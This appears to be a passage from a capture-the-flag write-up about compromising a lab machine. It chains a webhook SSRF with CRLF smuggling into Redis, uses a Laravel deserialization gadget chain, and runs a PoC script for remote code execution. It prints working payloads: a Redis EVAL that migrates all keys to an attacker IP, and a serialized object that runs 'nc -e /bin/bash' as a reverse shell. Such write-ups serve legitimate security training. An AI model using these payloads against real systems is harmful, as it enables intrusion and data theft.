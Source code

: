 [!Desktop View](/images/cybermonday/jwt1.png)
Now we have a admin session for the all API environment, which let us create some custom webhooks, called by a random UUID returned after your creation. 
After some tests, we can work around two parameters:
```
{
  "url",
  "method"
}
```
<https://blog.crowsec.com.br/ssrf-protocol-smuggling/>
<https://www.silentrobots.com/ssrf-protocol-smuggling-in-plaintext-credential-handlers-ldap/>
<https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery>

This is about the first attempts, which some requests through localhost and internal routes it's really more slow to respond as external routes.

[!Desktop View](/images/cybermonday/jwt2.png)

> We can understand this vuln as a SSRF with CRLF smuggling inside of the "method" function, we can found reports about this type a long of time, so we can take a long time testing redis syntax, and with that, we can go to the untended way.
{: .prompt-tip }

After researching about the machine set, we can find a blog really helpful for the intended path.
<https://blog.crowsec.com.br/obtendo-rce/>

I'm realy stucked at this part, 'cause i've just forgot for the env file. After a coffee break, and some coding, i reach in this conclusion:
<https://gist.github.com/Redshifteye/048480c21bbbd4667359906bf8cc9a01>
Some tools, like the properly `phpggc` i found at common consensus at community and in this blog. And finally, we got an RCE from this way.
 
> In the env file we can found the laravel_session token more easily than through redis proccess. So many core info are stored in files.
{: .prompt-tip }

```
ruby poc.rb -a 10.10.14.8 --attacker-port 6969 -s VIJZ2GkfTiv3lPvFxUztuSeU9p8WiUV8M4eh6LgI -u http://localhost:8080/ --payload http://redis:6379
```

### Alternative:

We also can dump the `laravel_session` through redis `SlAVEOF`:

[!Desktop View](/images/cybermonday/redis.png)
<https://redis.io/commands/migrate/?source=post_page-----fcf4671a6ae1-------------------------------->

```
EVAL 'for k,v in pairs(redis.call(\"KEYS\", \"*\")) do redis.pcall(\"MIGRATE\",\"10.10.14.17"\",\"6379\",v,0,10000) end' 0\r\n\r\
```
[!Desktop View](/images/cybermonday/redis2.png)
[!Desktop View](/images/cybermonday/redis3.png)
```
{"url":"http://redis:6379","method":"*3\r\n$3\r\nset\r\n$76\r\ncybermonday_database_cybermonday_cache_:4d453ae1-017c-46d0-9c21-6d60ab88b398\r\n$250\r\nO:38:\"Illuminate\\Validation\\Rules\\RequiredIf\":1:{s:9:\"condition\";a:2:{i:0;O:28:\"Illuminate\\Auth\\RequestGuard\":3:{s:8:\"callback\";s:14:\"call_user_func\";s:7:\"request\";s:6:\"system\";s:8:\"provider\";s:31:\"nc -e /bin/bash 10.10.16.9 8888\";}i:1;s:4:\"user\";}} \r\nQUIT\r\n"}
```
